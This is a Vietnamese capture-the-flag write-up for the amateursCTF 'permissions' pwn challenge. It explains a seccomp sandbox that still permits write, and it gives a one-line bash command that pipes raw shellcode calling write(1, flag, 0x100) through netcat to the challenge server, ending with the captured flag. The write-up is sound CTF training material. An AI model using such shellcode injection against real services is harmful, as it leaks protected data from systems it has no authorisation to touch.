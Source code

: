 # PERMISSIONS

## Overview

![img](/amateursCTF/Pwn/permissions/assets/overview.png)

- Bài cho chúng ta 3 file, check file code `chal.c`, mình thấy chương trình set rule bằng `seccomp` chỉ cấp quyền cho read, write, exit, exit_group.
</br>![img](/amateursCTF/Pwn/permissions/assets/seccomp.png)

- Bên dưới hàm `main` thực hiện đọc flag vào một vùng nhớ được cấp bằng `mmap()`, sau đó ta được cấp một vùng nhớ có quyền read, write, execute là `code` tại đây ta sẽ nhập shellcode và ở cuối thì chương trình sẽ thực hiện shellcode đó với đối số là địa chỉ của chuỗi flag.
</br>![img](/amateursCTF/Pwn/permissions/assets/main.png)

## Idea

- Do bài chỉ nhập và chạy shellcode, mà quyền đọc, ghi vẫn đủ cả nên mình viết đoạn shellcode nhỏ này đơn giản là gọi `write(1, flag, 0x100)`.
</br>![img](/amateursCTF/Pwn/permissions/assets/shellcode.png)

## Script

- Chạy đoạn bash script này trên terminal là xong.

```bash
echo "\x48\xC7\xC0\x01\x00\x00\x00\x48\x89\xFE\x48\xC7\xC7\x01\x00\x00\x00\x48\xC7\xC2\x00\x01\x00\x00\x0F\x05" | nc amt.rs 31174
```

## RESULT

![img](/amateursCTF/Pwn/permissions/assets/result.png)

>### Flag: amateursCTF{exec_1mpl13s_r34d_8751fda0}
